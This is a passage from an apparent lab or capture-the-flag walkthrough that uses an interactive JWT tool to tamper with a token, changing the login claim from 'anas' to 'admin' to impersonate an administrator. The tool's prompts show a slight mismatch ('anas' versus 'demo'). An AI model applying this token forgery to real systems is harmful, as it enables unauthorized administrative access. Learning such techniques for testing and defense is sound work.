 ```md
#  5: Check HS signature against a key (password)      #
#  6: Check HS signature against key file              #
#  7: Crack signature with supplied dictionary file    #
#                                                      #
#            ==== RSA KEY FUNCTIONS ====               #
#  8: Verify RSA signature against a Public Key        #
#                                                      #
#  0: Quit                                             #
########################################################

Please make a selection (1-6)
> 1

```

After choosing `1` choose `0` and press `1` and change `<your username>` to `admin` in this case from `anas` to `admin`.

```md
====================================================================
This option allows you to tamper with the header, contents and 
signature of the JWT.
====================================================================

Token header values:
[1] typ = JWT
[2] alg = RS256
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] login = anas
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of login is: demo
Please enter new value and hit ENTER
> admin
[1] login = admin
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step
```
